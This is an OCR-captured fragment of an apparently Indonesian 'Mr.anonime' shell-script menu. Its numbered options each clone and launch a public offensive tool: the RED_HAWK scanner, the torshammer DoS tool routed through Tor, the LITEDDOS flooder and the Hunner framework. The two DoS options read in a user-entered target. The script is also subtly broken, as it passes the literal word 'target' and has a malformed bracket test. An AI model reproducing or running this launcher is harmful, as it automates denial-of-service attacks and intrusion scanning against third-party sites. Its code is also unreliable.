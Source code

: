 if [ $bro = 24 ] || [ $bro = 24 ]
then
clear
toilet -f standard -F gay "Mr.anonime" 
echo "\033[33;1muntuk tutorial kunjungi:" "\033[36;1m https://youtu.be/h2I5HU3W-so"
sleep 3
apt update
apt install git
apt install php
git clone https://github.com/Tuhinshubhra/RED_HAWK
mv RED_HAWK $HOME
cd $HOME/RED_HAWK
chmod +x rhawk.php
php rhawk.php
fi

if [ $bro = 25 ] || [ $bro = 25 ]
then
clear
toilet -f standard -F gay "Mr.anonime" 
apt update
apt install git
apt install tor
git clone https://github.com/dotfighter/torshammer.git
mv torshammer $HOME
cd $HOME/torshammer
read -p "Masukan Target==>:" target
python2 torshammer.py -T -t target
fi

if [ $bro = 26 ] || [ $bro = 26 ]
then
clear
toilet -f standard -F gay "Mr.anonime" 
echo "\033[33;1muntuk tutorial kunjungi:" "\033[36;1m https://youtu.be/EskgepQSB7U"
sleep 3
apt update
apt install git
git clone https://github.com/4L13199/LITEDDOS
mv LITEDDOS $HOME
cd $HOME/LITEDDOS
read -p "MasukanTarget:" target
python2 LITEDDOS.py target 80 100
fi

if [ $bro = 27  || [ $bro = 27 ]
then
clear
toilet -f standard -F gay "Mr.anonime" 
apt update
apt install git
git clone https://github.com/b3-v3r/Hunner.git
mv Hunner $HOME
cd $HOME/Hunner
chmod +x hunner.py
python2 hunner.py
fi
